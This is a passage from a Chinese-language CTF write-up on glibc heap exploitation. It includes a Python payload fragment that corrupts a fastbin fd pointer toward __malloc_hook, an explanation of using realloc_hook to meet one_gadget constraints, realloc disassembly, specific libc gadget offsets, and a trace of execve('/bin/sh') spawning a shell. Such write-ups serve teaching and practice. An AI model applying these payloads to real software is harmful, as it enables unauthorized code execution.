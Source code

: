 ```python
	#通过开辟内存溢出掌控chunk 2, 在fastbin 中chunk 2是我们之前释放的, 现在只需要修改fd指向 malloc_hook -0x23处
    p = '\x00' * 0x80
	p += p64(0)
	p += p64(0x71)
	p += p64(main_arena - 0x33)
	p += '\n'
	ad(0xA0, p)
	
	ad(0x68, '\n') #for ajust fastbin
    
```

### 修改malloc_hook

由于直接修改malloc_hook为one_gadget,由于参数 [rsp + x] x 为0x30,0x50,0x70都不能使[rsp + x]为0,也就是说在执行execve的时候,第二个参数的内容没有满足为 0,所以不能触发get shell, 需要使用 realloc_hook来进行调整rsp的偏移,进而修改[rsp + x]满足为0,而在realloc_hook处,我们可以填写reallc的地址根据push来调整rsp的偏移,达到 [rsp + x]为0, 而在执行push完之后,就先进行判断 realloc_hook是否为0,若不为0,就先执行 realloc_hook处,这时我们就可以填写one_gadget 到realloc_hook处来打one_gadget
#### realloc_hook反汇编
```
pwndbg> disass 0x7fe7cb0ea6c0
Dump of assembler code for function __GI___libc_realloc:
   0x00007fe7cb0ea6c0 <+0>:	push   r15
   0x00007fe7cb0ea6c2 <+2>:	push   r14
   0x00007fe7cb0ea6c4 <+4>:	push   r13
   0x00007fe7cb0ea6c6 <+6>:	push   r12
   0x00007fe7cb0ea6c8 <+8>:	mov    r13,rsi
   0x00007fe7cb0ea6cb <+11>:	push   rbp
   0x00007fe7cb0ea6cc <+12>:	push   rbx
   0x00007fe7cb0ea6cd <+13>:	mov    rbx,rdi
   0x00007fe7cb0ea6d0 <+16>:	sub    rsp,0x38
   0x00007fe7cb0ea6d4 <+20>:	mov    rax,QWORD PTR [rip+0x33f8f5]        # 0x7fe7cb429fd0
   0x00007fe7cb0ea6db <+27>:	mov    rax,QWORD PTR [rax]
   0x00007fe7cb0ea6de <+30>:	test   rax,rax
   0x00007fe7cb0ea6e1 <+33>:	jne    0x7fe7cb0ea8e8 <__GI___libc_realloc+552>
   0x00007fe7cb0ea6e7 <+39>:	test   rsi,rsi
   0x00007fe7cb0ea6ea <+42>:	jne    0x7fe7cb0ea6f5 <__GI___libc_realloc+53>
   0x00007fe7cb0ea6ec <+44>:	test   rdi,rdi

```
通过调试试出了两个one_gadget满足execve 第二个参数内容为0

1. malloc_hook = libc_base + 0x4526a, realloc_hook = realloc_addr + 2
2. malloc_hook = libc_base + 0xf1147, realloc_hook = realloc_addr + 20

#### execve执行情况如下

```
0x7fe7cb15715d <exec_comm+2285>    call   execve <0x7fe7cb132770>
path: 0x7fe7cb1f2d57 ◂— 0x68732f6e69622f /* '/bin/sh' */
argv: 0x7ffe640ad200 ◂— 0x0
envp: 0x7ffe640ad2c8 —▸ 0x7ffe640adfaf ◂— 'LD_PRELOAD=/lib/x86_64-linux-gnu/libc.so.6'
```
